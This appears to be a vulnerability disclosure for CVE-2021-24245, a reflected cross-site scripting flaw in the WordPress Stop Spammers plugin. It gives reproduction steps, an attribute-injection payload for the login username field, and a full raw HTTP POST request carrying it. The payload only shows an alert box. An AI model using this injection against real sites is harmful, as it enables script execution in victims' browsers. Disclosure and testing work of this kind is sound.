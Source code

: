 XSS
---

    # Exploit Title: WordPress Plugin Stop Spammers 2021.8 - 'log' Reflected Cross-site Scripting (XSS)
    # Date: 04/08/2021
    # Exploit Author: Hosein Vita
    # Vendor Homepage: https://wordpress.org/plugins/stop-spammer-registrations-plugin/
    # Software Link: https://downloads.wordpress.org/plugin/stop-spammer-registrations-plugin.zip
    # Version: <= 2021.8
    # Tested on: Windows-Ubuntu
    # CVE : CVE-2021-24245

    Summary:

    Reflected cross-site scripting (XSS) vulnerabilities in 'Stop Spammers <= 2021.8' allow remote attackers to run arbitary javascript

    Proof of concepts:

    1-Install "Stop Spammers <= 2021.8" in your wordpress website
    2-For testing remove your IP address from the allowed list
    3-Go to http://<YOUR-WEBSITE>/wp-admin
    4-In username field enter this payload ~> ad" accesskey=X onclick=alert(1) "
    #Notice the `ad` keyword must be in your payload!
    5-Press Alt + Shift + X to trigger Xss
    #Tested on Firefox

    Request POC:

    POST /wp-login.php HTTP/1.1
    Host: localhost
    Connection: close
    Content-Length: 161
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: wordpress_test_cookie=WP+Cookie+check;

    log=ad%22+accesskey%3DX+onclick%3Dalert%281%29+%22&pwd=&wp-submit=%D9%88%D8%B1%D9%88%D8%AF&redirect_to=http://localhost/wp-admin&testcookie=1
